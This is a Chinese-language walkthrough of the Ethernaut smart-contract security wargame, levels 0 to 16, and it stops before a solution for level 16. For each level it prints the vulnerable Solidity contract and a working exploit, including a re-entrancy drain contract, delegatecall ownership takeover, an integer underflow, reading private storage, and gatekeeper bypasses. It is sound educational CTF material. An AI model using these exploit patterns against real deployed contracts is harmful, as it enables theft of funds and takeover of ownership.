

## 0. Hello Ethernaut

- 登录 MetaMask，将 MetaMask 切换到 Rinkeby 测试网络
    - 若没有则需要在 `设置->高级` 中开启「Show test networks」
- 在浏览器的控制台可以收到一些消息，其中一条为玩家地址
    - 可以使用 `player` 命令随时查看玩家地址，MetaMask 也可以直接复制
- 查看当前余额：`getBalance(player)`
    - 如果显示 `pending`，可改用 `await getBalance(player)` 来获得清晰的结果

        ```js
        >> await getBalance(player)
        "0"
        ```

- 在控制台输入 `ethernaut` 查看游戏的主要合约
    - 合约的 ABI（Application Binary Interfaces）提供了所有 Ethernaut.sol 的公开方法，如所有者，可通过 `ethernaut.owner()` 查看
    - 并不需要直接与 Ethernaut.sol 合约交互，而是通过关卡实例
- 获取测试用以太币用于支付汽油费：[1](https://faucet.rinkeby.io/) / [2](https://faucets.chain.link/rinkeby) / [3](https://faucet.paradigm.xyz/)
- 点击「Get new instance」并在 MetaMask 授权交易
- 查看合约信息并根据提示交互

    ```js
    >> await contract.info()
    "You will find what you need in info1()."
    >> await contract.info1()
    "Try info2(), but with \"hello\" as a parameter."
    >> await contract.info2("hello")
    "The property infoNum holds the number of the next info method to call."
    >> await contract.infoNum()
    {
      "negative": 0,
      "words": [
        42,
        null
      ],
      "length": 1,
      "red": null
    }
    >> await contract.info42()
    "theMethodName is the name of the next method."
    >> await contract.theMethodName()
    "The method name is method7123949."
    >> await contract.method7123949()
    "If you know the password, submit it to authenticate()."
    >> await contract.password()
    "ethernaut0"
    >> await contract.authenticate("ethernaut0")
    // MetaMask 授权交易，等待确认
    ```

- 查看合约所有 ABI：`contract.abi`
- 完成后点击「Submit instance」验证

## 1. Fallback

阅读合约代码并达成以下目标：

1. 获得合约的所有权
2. 将其余额减为 0

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {  // 构造函数
    owner = msg.sender; // 所有者为当前调用
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    // msg.value - 随消息发送的 wei 的数量
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    // 每次转账不能超过 0.001 以太币，想要超过原 owner 的 1000 以太币
    // 需要重复调用多次 contribute 函数，且测试账户也没有那么多以太币，显然不太现实
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);  // 合约所有者才能将账户余额清零
  }

  // 一个合约最多能有一个 receive 函数，不能有参数和返回值
  // 必须声明 external 和 payable
  // 当调用合约的 data 域为空时，将会执行；如果没有 receive 函数，将尝试 fallback 函数
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

- 注意到若当前交易转账金额大于 0 且调用者贡献不为 0 时，可以通过 `receive` 函数取得合约所有权
- 首先通过 `contribute` 使贡献值大于 0

    ```js
    >> await contract.contribute({value:1})
    ```

- 向合约转账触发 `receive` 函数，执行完成后确认一下所有者

    ```js
    >> await contract.send(1)
    // 或
    >> await contract.sendTransaction({value:1})  // 发起一个交易

    >> await contract.owner()
    ```

- 清空合约账户的余额

    ```js
    >> await contract.withdraw()
    ```

### 参考资料

- [Receive Ether Function](https://docs.soliditylang.org/en/latest/contracts.html?highlight=receive#receive-ether-function)
- [sendTransaction](https://web3js.readthedocs.io/en/v1.7.0/web3-eth.html?highlight=sendTransaction#sendtransaction)

## 2. Fallout

声明合约的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
  // 在 v0.4.22 前，构造函数是和合约同名的函数（v0.5.0 弃用）

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

被注释为「构造函数」的函数名为 `Fal1out` 而不是 `Fallout` 意味着该函数只是普通函数可以被调用

- 真正的构造函数只在合约创建时调用一次

```js
>> await contract.Fal1out()
```

### 参考资料

[Constructors](https://docs.soliditylang.org/en/latest/contracts.html?highlight=constructor#constructors)

## 3. Coin Flip

需要连续猜对 10 次掷硬币的结果

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    // block.number - 当前区块号
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert(); // 无条件抛出异常
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);  // 向下取整
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

- 实际上 `side` 的值并非随机，区块号、区块哈希等都是公开可获取的
- 可以由另一个合约计算掷硬币的结果，并调用 `flip` 函数

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

// 把需要调用的合约放在同一个文件
contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    // 当前区块号不能等于上一区块号，意味着不能使用循环重复调用 flip
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract hack {
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coin;

    constructor(address instance) {
        coin = CoinFlip(instance);
    }

    function exploit() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        coin.flip(side);
    }
}
```

使用 Remix 部署合约


执行 10 次 `exploit` 函数


可以使用 [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number) 来获得安全的随机数

### 参考资料

[Deploy & Run — Remix - Ethereum IDE 1 documentation](https://remix-ide.readthedocs.io/en/latest/run.html)

## 4. Telephone

声明合约的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    // tx.origin - 交易的发起者
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

- 用户通过合约 A 调用合约 B
    - 对于合约 A：`tx.origin` 和 `msg.sender` 都是用户
    - 对于合约 B：`tx.origin` 是用户，`msg.sender` 是合约 A
- 当交易发起者的地址与当前调用者的地址不相同时，可以更新合约所有者，显然需要通过另一个合约来调用 `changeOwner`

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Hack {

  address public owner;
  Telephone tele;

  constructor(address instance) public {
    owner = msg.sender;
    tele = Telephone(instance);
  }

  function exploit() public {
    tele.changeOwner(owner);
  }
}
```

## 5. Token

增加手中 token 的数量，越多越好（初始 20 个）

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  // 无符号整数类型
  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    // 会发生整数溢出，未使用 SafeMath 检查
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

通过下溢出来获得 token

```js
// 转给除自己外的任意地址
// 转给自己的话，就先下溢出再上溢出了...
>> await contract.transfer(<address>, 21)
```

## 6. Delegation

声明对合约实例的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  // 没有 payable，不能使用转账来触发 fallback
  // 同时，通过转账来触发 fallback 函数不能加任何 data
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

- 代理调用只使用给定地址的代码，其他属性都取自当前合约
- 使用合约 `Delegate` 的 `pwn` 函数来修改合约 `Delegation` 的所有者
- 除了向合约转账会触发 `fallback` 函数外，若被调用的函数不存在同样会触发
- 调用 `Delegation` 不存在的函数 `pwn` 来触发 `fallback` 函数，从而执行真正的 `pwn` 函数
  
    ```js
    // keccak256 即 sha3
    >> await contract.sendTransaction({data: web3.utils.sha3("pwn()")})
    >> await contract.owner()
    ```

- 代理调用功能强大且危险，慎用 👀

### 参考资料

- [SHA-3 - 维基百科，自由的百科全书](https://zh.wikipedia.org/wiki/SHA-3)
- [sha3](https://web3js.readthedocs.io/en/v1.7.0/web3-utils.html?highlight=sha3#sha3)

## 7. Force

使合约的余额大于 0

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

- 当合约自毁时，合约余额将转给指定目标
    - 即使合约代码不包含 `selfdestruct` 的调用，仍然可以通过 `delegatecall` 或 `callcode` 来执行自毁操作

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Hack {

  function pay() public payable {}

  function exploit(address instance) public {
    // 声明 payable 的函数和地址都可以接受转账
    selfdestruct(payable(instance));
  }
}
```

在 Remix 向合约 `Hack` 转账


- 如果合约中包含声明了 `payable` 的 `receive` 或 `fallback` 函数，也可以在填写完 `VALUE` 后直接点击「Transact」；或通过声明了 `payable` 的构造函数，在创建合约时转账
- 通过自毁的转账方式无法阻止，因此任何合约逻辑都不应基于 `address(this).balance == 0`

### 参考资料

- [Deactivate and Self-destruct](https://docs.soliditylang.org/en/v0.8.12/introduction-to-smart-contracts.html?highlight=destruct#deactivate-and-self-destruct)
- [Payable | Solidity by Example](https://solidity-by-example.org/payable/)
- [Low level interactions](https://remix-ide.readthedocs.io/en/latest/udapp.html?highlight=contract#low-level-interactions)

## 8. Vault

解锁保险柜

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

- 猜密码是不可能猜的~ XD
- 区块链上所有信息都是公开的，包括声明为 `private` 的变量
- 合约中的变量按照定义的顺序存储在 slot 中

```js
// 首先确定变量定义的顺序，第一个变量存储在 slot 0，第二个变量存储在 slot 1，以此类推
>> await web3.eth.getStorageAt(instance, 1)
"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
>> web3.utils.toAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
"A very strong secret password :)"
>> await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```

- 将变量声明为 `private` 只能防止其它合约访问
- 为了保证数据的机密性，应在上链前加密，密钥绝对不能公开。[zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) 提供了一种在不暴露秘密信息的情况下，证明某人是否持有秘密信息的方法

### 参考资料

[Crypto Market Pool - Access private data on the Ethereum blockchain](https://cryptomarketpool.com/access-private-data-on-the-eth-blockchain/)

## 9. King

阻止关卡实例在提交后重新声明国王身份

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    // 即使转账金额小于 prize，合约的所有者也可以声明国王身份
    require(msg.value >= prize || msg.sender == owner);
    // 当前的转账金额会转给上一任国王
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;  // 更新 prize
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

- 当 `transfer` 执行失败时，会抛出异常，交易回滚，关卡实例就无法再声明国王身份了
- 查看当前最高金额

    ```js
    >> web3.utils.fromWei(await contract.prize())
    "0.001"
    ```

- 新建合约，用于声明国王身份，并阻止关卡实例再成为国王

    ```js
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Hack {

      constructor() public payable {}

      function exploit(address payable instance) public {
        instance.call{value: 0.001 * (1 ether)}("");  // 汽油费一定要给足！
        // 不能使用 transfer/send，默认 2300 汽油费不足以支撑后续操作
      }

      receive() external payable {
        revert(); // 使 king.transfer 无法成功执行
      }

    }
    ```

## 10. Re-entrancy

窃取合约所有的💰

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  // 利用先转再减
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

- 在接收合约的 `fallback` 函数中再调用 `withdraw` 函数
- 先看看合约的初始资金

    ```js
    >> await web3.eth.getBalance(instance)
    "1000000000000000"
    ```

- 计划分 9 次取完（也可以多捐赠，减少取出次数）

    ```js
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    import '@openzeppelin/contracts/utils/math/SafeMath.sol';

    contract Reentrance {
      
      using SafeMath for uint256;
      mapping(address => uint) public balances;

      function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
      }

      function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
      }

      function withdraw(uint _amount) public {
        if(balances[msg.sender] >= _amount) {
          (bool result,) = msg.sender.call{value:_amount}("");
          if(result) {
            _amount;
          }
          balances[msg.sender] -= _amount;
        }
      }

      receive() external payable {}
    }

    contract Hack {

      Reentrance reentrance;
      uint stack = 0;

      function exploit(address payable instance) public {
        reentrance = Reentrance(instance);
        reentrance.withdraw(125000000000000);
      }

      receive() external payable {
        stack += 2;
        if (msg.sender.balance >= msg.value && gasleft() > 6000 && stack < 500) {
          reentrance.withdraw(125000000000000);
        }
      }

    }
    ```

- 合约 Hack 部署完成后，进行「捐赠」

    ```js
    >> await contract.donate("<hack-address>", {value: 125000000000000});
    >> web3.utils.fromWei(await contract.balanceOf("<hack-address>"))
    "0.000125"
    ```

- 随后开始「盗钱」，务必给足汽油 :)
    > 本次汽油量参考：200,000 | 156,169 (78.08%)

- 永远假设转账的接收方是另一个合约，而非普通的地址

## 11. Elevator

到达顶层！

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) { // 第一次返回 false
      floor = _floor;
      top = building.isLastFloor(floor);  // 第二次返回 true
    }
  }
}
```

- `Interface` 内部不能实现任何函数，但可以继承自其它接口，所有声明的函数必须是外部的，不能声明构造函数和状态变量
- 「电梯应该在建筑里」，实现这个 `Building` 合约就好啦 >_<

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Building {
  bool public flag = true;

  function isLastFloor(uint) external returns (bool) {
    flag = !flag;
    return flag;
  }

  function exploit(address instance) public {
    Elevator elevator = Elevator(instance);
    elevator.goTo(1);
  }
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

- 接口函数可以通过声明 `view` 来防止状态被篡改，`pure` 同理
- 在不改变状态的情况下，可以根据不同的输入数据来返回不同的结果，如 `gasleft()`

### 参考资料

- [Interface | Solidity by Example](https://solidity-by-example.org/interface/)
- [View Functions](https://docs.soliditylang.org/en/develop/contracts.html#view-functions)

## 12. Privacy

解锁！([Vault](#8-vault) 升级版)

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {
  // slot 0
  bool public locked = true;

  // slot 1
  uint256 public ID = block.timestamp;  // uint256 is 32 bytes long

  // slot 2
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);

  // slot 3, 4, 5
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

- 每个 slot 大小为 32 字节，当邻近变量也能够放进单个 slot 时，将按从右到左的顺序依次放入
- 常量不存储

```js
>> await web3.eth.getStorageAt(instancedress, 0)
"0x0000000000000000000000000000000000000000000000000000000000000001"
>> await web3.eth.getStorageAt(instancedress, 1)
"0x000000000000000000000000000000000000000000000000000000006210d5b1"
>> await web3.eth.getStorageAt(instancedress, 2)
"0x00000000000000000000000000000000000000000000000000000000d5b1ff0a" // 0a for flattening, ff for denomination
>> await web3.eth.getStorageAt(instancedress, 3)
"0xc3003c2bcb65196b8352fb925d945f9229929bcc727f70ea451255859a6a4f56"
>> await web3.eth.getStorageAt(instancedress, 4)
"0x6d6f76ea288ee9c55ab1ad76264518237a23af3495ee5702f57a164f8aeb99b0"
>> await web3.eth.getStorageAt(instancedress, 5)
"0x06e3eb3b9e34467cbf1a226fc2bd13e5948a7a15ef2205caf186fa3df3076f53"  // data[2]
```

- 由于 `_key` 为 `bytes16` 类型，需要对 `data[2]` 进行类型转换

    ```js
    // 从 bytes32 到 bytes16，只需要移走右侧的 16 字节，即 32 位十六进制数
    >> await contract.unlock("0x06e3eb3b9e34467cbf1a226fc2bd13e5")
    ```

### 参考资料

[Accessing Private Data | Solidity by Example](https://solidity-by-example.org/hacks/accessing-private-data/)

## 13. Gatekeeper One

越过守门人并注册为参赛者

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      // uint64 is 8 bytes long
      // _gateKey % 2^32 == _gateKey % 2^16
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      // _gateKey % 2^32 != _gateKey
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      // _gateKey % 2^32 == tx.origin % 2^16
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

- 使用与 [Telephone](#4-telephone) 相同的方式通过 `gateOne`
- 至于 `gateTwo`，在 Remix 的 JavaScript VM 环境下通过 Debug 来获取具体所需汽油量
    - **注意**：不同版本的 EVM 或编译器都会导致不同的汽油消耗量
    - 首先选择一个较大的汽油量，如 `90000`
    - 执行完成后，进入 `DEBUGGER`，执行到 `mod` 这一步，此时可查看参与模运算两个局部变量的值，其中 `a` 就对应了当前剩余的汽油量，为 `89746`<br>


    - 由此可计算出通过 `gateTwo` 实际需要的最少汽油量：$90000-89746+8191=8445$
- 对于 `gateThree`，用 $A_0A_1...A_7$ 来表示 `_gateKey` 的各个字节
    - `part one` 需满足 $A_4A_5A_6A_7 = A_6A_7$
    - `part two` 需满足 $A_4A_5A_6A_7 \neq A_0A_1...A_7$
    - `part three` 需满足 $A_4A_5A_6A_7 = B_6B_7$ （视作 `tx.origin` 后两个字节）
    - 也就是说，`_gateKey` 只需要后两个字节与 `tx.origin` 一致，倒数三四字节为 $0$，剩下四个字节不为 $0$ 就可以了 >v<

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract Hack {
  function exploit(address instance) public {
    GatekeeperOne gk = GatekeeperOne(instance);
    bytes8 _gateKey = bytes8(uint64(msg.sender) & 0xff0000ffff);
    gk.enter{gas: 8445}(_gateKey);
  }
}
```

### 参考资料

- [Solidity variables — storage, type conversions and accessing private variables](https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183)
- [solidity - Why does Remix's jsVM show incorrect gas? - Ethereum Stack Exchange](https://ethereum.stackexchange.com/questions/84670/why-does-remixs-jsvm-show-incorrect-gas)

## 14. Gatekeeper Two

通过新的挑战！

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) } // 内联汇编
    // caller() - call sender (excluding delegatecall)
    // extcodesize(a) - size of the code at address a
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

- `gateTwo` 需要调用合约的代码长度为 0，与解题矛盾。[ETHEREUM: A SECURE DECENTRALISED GENERALISED TRANSACTION LEDGER](https://ethereum.github.io/yellowpaper/paper.pdf) 中提到，在代码初始化时，对应地址的 `EXTCODESIZE` 应返回 0，那么只需要在构造函数里调用 `enter` 就可以了
- 至于 `gateThree`，使用异或逆运算求解就好啦

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract Hack {

  constructor(address instance) public {
    GatekeeperTwo gk = GatekeeperTwo(instance);
    gk.enter(bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1)));
  }
}
```

### 参考资料

[Inline Assembly](https://docs.soliditylang.org/en/v0.6.0/assembly.html#inline-assembly)

## 15. Naught Coin

取出被锁住的硬币，清空自己的余额

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

contract NaughtCoin is ERC20 { // 基于 ERC20

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY); // Creates INITIAL_SUPPLY tokens and assigns them to player
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    // super 继承直接父合约的 transfer 函数
    super.transfer(_to, _value);  // 将调用者 _value 数量的金额转移给 _to
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

- `lockTokens` 限制了 `player`，而被覆写的 `transfer` 只能由持有货币的账户发起转账
- `NaughtCoin` 合约是 `ERC20` 的子合约，在合约 `ERC20` 中除了定义 `transfer` 还有 `transferFrom` 函数，由此可以绕过 `lockTokens` 的限制

    ```
    transferFrom(address sender, address recipient, uint256 amount) → bool
    ```

- 在调用 `transferFrom` 之前需要取得 `msg.sender` 的授权

    ```js
    >> await contract.approve(player, await contract.INITIAL_SUPPLY())
    ```

- 发起转账

    ```js
    >> await contract.transferFrom(player, instance, await contract.INITIAL_SUPPLY())
    ```

### 参考资料

[ERC 20 - OpenZeppelin Docs](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#ERC20-_mint-address-uint256-)

## 16. Preservation

声明对实例的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time; // 修改了第一个状态变量
  }
}
```

